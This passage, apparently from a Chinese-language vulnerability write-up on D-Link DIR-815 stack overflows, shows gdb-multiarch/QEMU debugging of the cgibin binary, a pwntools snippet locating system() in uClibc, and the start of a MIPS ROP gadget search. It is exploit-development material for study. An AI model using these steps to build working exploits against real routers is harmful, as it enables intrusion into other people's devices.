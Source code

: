 #### **gdb-multiarch+QEMU动态调试分析验证**

1，通过gdb指定脚本调试（避免重复输入，重复造轮子浪费时间）


​    
​    set architecture mips  
​    set endian little  
​    target remote :1234  
​    b *0x409a54  
​    c  
​    vmmap

执行 #一定要加载文件htdocs/cgibin不然vmmap得不到结果


​    
​    gdb-multiarch htdocs/cgibin -x dbgscript

-x是指定要执行的命令文件

but...还是每找到完整的vmmap

![](/images/D-LINK DIR-815多次溢出漏洞/1752587185845.png)

但实际上，我们查看 `lib` 目录下的 `libc.so.0` 即可知

![](/images/D-LINK DIR-815多次溢出漏洞/1752587185917.png)

找到systeam的地址

![](/images/D-LINK DIR-815多次溢出漏洞/1752587185999.png)

另外一种方法


​    
​    from pwn import *  
​    context.arch = "mips"  
​    context.endian = "little"  
​      
​    libc = ELF("./lib/libuClibc-0.9.30.1.so")  
​    libc.address = 0x77fe2000 # base address rop链的基地址，确定方法在后面  
​    system_addr = libc.symbols['system']  
​    log.success("system address: 0x%x" % system_addr)

得到 system address: 0x7f78b200

  

然后便是找一个能将 `system()` 首个参数写入 `$a0` 的 gadget，这里在 `libuClibc-0.9.30.1.so` 中使用
`mipsrop` 插件，利用 `mipsrop.stackfinder()` 命令找将栈上数据放入寄存器的 gadget：

![](/images/D-LINK DIR-815多次溢出漏洞/1752587186117.png)

打开 mips rop gadgets

然后命令行输入mipsrop.stackfinders()
